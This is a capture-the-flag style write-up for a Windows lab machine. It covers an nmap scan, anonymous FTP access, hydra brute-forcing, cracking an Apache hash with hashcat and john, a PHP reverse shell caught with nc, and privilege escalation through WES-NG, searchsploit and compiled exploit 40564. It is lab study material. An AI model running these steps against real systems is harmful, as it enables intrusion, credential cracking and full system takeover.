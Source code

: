 ## NMAP TCP

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 14:54 UTC
Nmap scan report for 192.168.51.46
Host is up (0.0010s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Mar 03 22:16 log
| ----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Jan 23  2023 accounts
242/tcp  open  http               Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
3145/tcp open  zftp-admin         zFTPServer admin
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2024-03-03T14:56:29+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
```

## FTP

anonymous login on FTP succeeded
In the working directory - there is an accounts folder with following usernames:
```
total 4
dr-xr-xr-x   1 root     root          512 Jan 23  2023 backup
----------   1 root     root          764 Jan 23  2023 acc[Offsec].uac
----------   1 root     root         1030 Mar 03 21:45 acc[anonymous].uac
----------   1 root     root          926 Jan 23  2023 acc[admin].uac
226 Closing data connection.
```

Made users list to brute force ftp using hydra for the same

```hydra-ftp
hydra -L <USERLIST> -P <WORDLIST> ftp://<TARGET> -V
```

Found a .htpasswd file with hash

```
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

Used [hashcat-reference-list](https://hashcat.net/wiki/doku.php?id=example_hashes) to identify hashcat mode 1600 for Apache MD5 hash type

```hashcat-apache-apr1
hashcat -m 1600 <HASHES.TXT> <WORDLIST.TXT>
```

```john-wordlist
john --wordlist=<WORDLIST.TXT> <HASHES.TXT>
```

Found password:

```
elite
```

## PORT 242

Prompted to login - used Offsec:elite
Logged in to page with Qui e nuce nuculeum esse volt, frangit nucem!

This is index.php from FTP as admin:admin
Made PHP reverse shell and uploaded by FTP put command

SHELL:

```
?$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [192.168.49.51] from (UNKNOWN) [192.168.51.46] 49158
SOCKET: Shell has connected! PID: 724
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\wamp\bin\apache\Apache2.2.21>whoami 
livda\apache
```

Found flag for local.txt on Desktop of apache user:

```
C:\Users\apache\Desktop>type local.txt
d5677890a7b398c1bf75a323043caada
```

Found there's a user test123 on system

Upload WINPEAS.BAT via same FTP and then run it

Used systeminfo and [WES-NG](https://github.com/bitsadmin/wesng) :

on target
```
systeminfo
```

on host
```wes-ng
git clone https://github.com/bitsadmin/wesng --depth 1
python wes.py --update
python wes.py systeminfo.txt
```

Suggested many, did some grep for priv esc ones only

```
python wes.py ../systeminfo.txt | grep Elevation -B 7 | grep CVE | cut -d: -f2 | tr -d " " > cves.txt
```

Then searchsploit on this list of CVES

```
cat cves.txt | while read line; do searchsploit --cve $line -w; done | grep https
```

Found exploit 40564

```
searchsploit -m 40564
i686-w64-mingw32-gcc 40564.c -o privilege.exe -lws2_32
```

Uploaded compiled exe via FTP again
executed privilege.exe on remote

==DONE==


